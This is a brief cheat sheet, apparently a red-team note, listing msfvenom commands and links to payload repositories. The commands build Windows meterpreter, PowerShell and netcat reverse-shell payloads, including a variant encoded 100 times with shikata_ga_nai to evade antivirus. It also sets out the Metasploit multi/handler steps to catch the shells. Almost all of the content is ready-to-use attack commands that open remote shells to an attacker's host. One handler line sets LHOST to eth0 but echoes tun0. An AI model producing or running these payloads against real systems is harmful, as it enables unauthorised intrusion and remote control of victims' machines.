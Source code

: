 ### [Payload Resources]
https://netsec.ws/?p=331  
https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/  
https://github.com/nccgroup/Winpayloads  
https://github.com/xephora/PayloadsAllTheThings  

[Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

Creating a reverse tcp netcat comamnd
msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<port> R
```

### [Unique Reverse TCP]
```
msfvenom -p windows/powershell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > pshell.exe
```

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

